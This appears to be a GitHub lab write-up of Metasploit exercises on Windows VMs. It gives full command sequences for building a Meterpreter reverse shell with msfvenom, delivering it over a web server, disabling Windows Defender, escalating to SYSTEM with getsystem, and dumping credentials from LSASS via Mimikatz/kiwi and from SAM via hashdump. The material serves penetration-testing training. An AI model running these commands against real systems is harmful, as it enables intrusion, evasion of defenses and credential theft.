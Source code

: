 # Meterpreter

## Escalate Privileges To SYSTEM Using Meterpreter’s Command GETSYSTEM
Gaining SYSTEM privileges on a Windows machine is essential for penetration testers and red teamers to perform advanced post-exploitation tasks like credential dumping and accessing sensitive data. Meterpreter's GETSYSTEM command is a powerful tool for escalating privileges to SYSTEM-level access.

#### Preparation
- Target machine: Windows 10 VM with local administrator privileges
- Attacker machine: Kali Linux VM with Metasploit installed

#### Tasks
- Use MSFVenom to generate a Meterpreter reverse shell payload. Ensure you set the payload to be compatible with the target machine's architecture
- Transfer the payload to the target machine
- Create a Meterpreter listener
- On the target machine, right-click the payload file and select "Run as administrator" to start the reverse shell with elevated privileges
- Within the Meterpreter session, use the `getsystem` command to escalate your privileges to SYSTEM level
- Execute either the `whoami` or `getuid` command

#### Solutions 
1. Get the IPv4 addresses of both VMs and ping each other to ensure network connectivity
2. In Kali Linux, create the reverse shell executable for windows using the following sample command
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Start the Metasploit framework using `msfconsole`
4. Set the payload using `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Set the LHOST to the Kali Linux's IP address using `set LHOST <Kali_Linux_IP_address>`
6. Set the LPORT (listening port) to 4444 using `set LPORT 4444`
7. In a separate second terminal, send the file over to the target machine either using a web server or a shared folder in the VM. In this task, a web server is used
8. First, navigate to the Desktop directory in the terminal, and copy the reverse shell executable from the desktop to the web server directory at /var/www/html using the command `sudo cp reverseshell.exe /var/www/html`
9. Before starting the Apache web server, verify its status using `service apache2 status`. If it is currently disabled, run the command `service apache2 start` to activate the web server
10. Disable beforehand the Microsoft Firewall and Protection to prevent auto-deletion of the reverse shell executable once it is downloaded
11. In Windows 10 VM, open a web browser and enter the Kali Linux's IP address with the name of the executable as the following: `192.168.1.14/reverseshell.exe`
12. In Kali Linux VM, since the listening port was configured to port 4444, run the commmand `sudo ufw allow 4444/tcp` in the second terminal to allow incoming TCP traffic
13. In the Kali Linux terminal used for the Metasploit framework, run exploit using `exploit`
14. Back to Windows 10 VM, run the downloaded reverseshell.exe as administrator. This should open a Meterpreter session in Kali Linux
15. In Kali Linux, use the `getsystem` command to escalate the privileges to SYSTEM level
16. Enter `shell` and `whoami` to get `nt authority\system`

<br/>
Sample screenshot of a successful Meterpreter session is shown below: 

![image](https://github.com/user-attachments/assets/e61bc49c-66f1-4a0a-8025-539e6ed14d7d)


## Use Meterpreter To Dump Password Hashes Stored In The SAM Database And LSASS
In cybersecurity, understanding how attackers extract credentials is key to effective defense. Meterpreter, a post-exploitation tool, enables attackers to access compromised Windows systems and extract sensitive data like password hashes. Through Meterpreter, tools like Mimikatz can dump password hashes from LSASS memory and the SAM database

#### References
- [Meterpreter Basics](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump)
- [Mimikatz](https://www.offsec.com/metasploit-unleashed/mimikatz/)

#### Tasks
- Launch Metasploit and use an appropriate exploit to gain a Meterpreter session on the Windows 7 virtual machine
- Once you have a Meterpreter session, use the "getsystem" command to escalate privileges to SYSTEM level
- Use the "getuid" command to display the current user's privileges
- Use Mimikatz commands within the Meterpreter session to extract usernames and password hashes from the LSASS memory
- Use the "hashdump" command in Meterpreter to dump password hashes from the SAM database


#### Solutions
1. Since Kiwi is an integration of Mimikatz into Metasploit by providing functionality directly in a Meterpreter session, it requires a 64-bit Meterpreter session to avoid errors such as `ERROR kuhl_m_sekurlsa_acquireLSA ; mimikatz x86 cannot access x64 process`
2. If the reverse shell in the previous Meterpreter task is 32-bit, recreate a new 64-bit reverse shell using the command:
   ```
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Move the reverse shell from the Desktop directory into the web server directory (/var/www/html)
4. Download the reverse shell in the Windows 10 VM and run it as an administrator
5. Once a Meterpreter session is available in Kali Linux, run `getsystem` to escalate privileges
6. Confirm you are running as a SYSTEM user using `getuid`. You should see something like `Server username: NT AUTHORITY\SYSTEM`
7. To load Mimikatz in Meterpreter session, use `load kiwi`
8. Use `kiwi_cmd sekurlsa::logonpasswords` to extract credentials from LSASS memory. This will dump usernames and password hashes
9. To dump password hashes from the SAM database, use `hashdump`

Screenshot of how Kiwi is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/3fbaa79a-b163-43d5-bc50-7bb025b4c288)

Screenshot of how hashdump is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/c7454ba6-d740-40a6-8712-484b0b132c90)


